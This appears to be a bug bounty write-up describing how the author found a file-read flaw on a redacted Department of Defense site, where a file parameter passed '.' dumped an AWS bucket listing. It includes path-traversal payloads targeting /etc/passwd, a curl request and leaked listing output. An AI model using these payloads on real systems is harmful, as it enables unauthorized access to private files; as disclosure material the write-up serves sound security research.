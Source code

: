# How I (Technically) Hacked the Department of Defense

It's counterintuitive, but one of the best places to go bug bountying US Department of Defense. It's probably a combination of the massive attack service, dated technology (they still mostly use LAMP), and thin IT support. So here's how I bypassed their web security as 19-year-old with a MacBook.

In keeping with the DOD policy, I've redacted the names of all sites and changed the names of all endpoints. 

I was poking around an some software that supported marine navigation tech when I noticed an interesting endpoint ```https://REDACTED/getAWSFile.php?file=```. I could query a file from it, and it would return the requested file.

Since the site was running LAMP, I figured I would check for [Local File Inclusion (LFI)](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) bugs, which old PHP applications are sometimes susceptible to. I was running a fuzzing script when I noticed something strange:

```bash
python3 lfi_fuzz.py
../../../etc/passwd                returned 413 B
../../../etc/passwd..........      returned 413 B
%c0%ae%c0%ae/etc/passwd            returned 413 B

[...]

.                                  returned 16024 B 
```

When I fed "." into the query, it returned 4,000x more data than it should. I quickly tried to reproduce this with curl:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: REDACTED.mil' -H $'Accept: */*' \
    -b $'JSESSIONID=<COOKIE>' \
    $'https://REDACTED.mil/getAWSFile.php?file=.'
```

which returned the result:

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
  <Name>REDACTED</Name>
  <Prefix/>
  <Marker/>
  <MaxKeys>1000</MaxKeys>
  <IsTruncated>false</IsTruncated>
  <Contents>
    <Key>example-object-1.txt</Key>
    <LastModified>2023-01-01T12:00:00.000Z</LastModified>
    <ETag>"1b2cf535f27731c974343645a3985328"</ETag>
    <Size>1024</Size>
    <StorageClass>STANDARD</StorageClass>
  </Contents>
  <Contents>
    <Key>example-object-2.jpg</Key>
    <LastModified>2023-01-02T15:30:00.000Z</LastModified>
    <ETag>"3a5c8b7f2f50d063edebf9cda548579f"</ETag>
    <Size>2048</Size>
    <StorageClass>STANDARD</StorageClass>
  </Contents>

[...]

</ListBucketResult>
```

What was happening under the hood was the server was fetching files from an external AWS bucket, and when I fed it the "." character (which stands for 'the current directory' in the Unix shell) the Bucket dumped its entire directory listing and returned it. Since I now had the full path to every file on the bucket, I could just plug them into the file parameter of the request to read any file on the server.

I picked a random file ***```REDACTED/SiteContent/StaticFiles/data/files/navdata.txt```***, plugged it into the ```getAWSFile.php``` endpoint, and the server returned: 

```
--------------------------------------------------------------------------------

DATABASE:  /REDACTED

All libraries corrected through NTM 11/23 (18 March 2023).


-----GENERAL SCALE LIBRARIES: (2)

[...]
```

I could see and read every file on the bucket. Since the DOD takes their information security pretty seriously, I didn't enumerate any further and I reported it. 
